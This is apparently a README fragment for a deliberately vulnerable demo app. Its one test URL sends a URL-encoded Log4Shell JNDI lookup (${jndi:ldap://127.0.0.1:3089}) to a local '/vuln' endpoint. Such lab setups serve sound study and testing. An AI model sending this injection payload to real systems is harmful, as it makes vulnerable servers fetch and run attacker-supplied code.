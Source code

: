 Test by call this URL
```
http://localhost:8082/vuln?userInput=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A3089%7D
```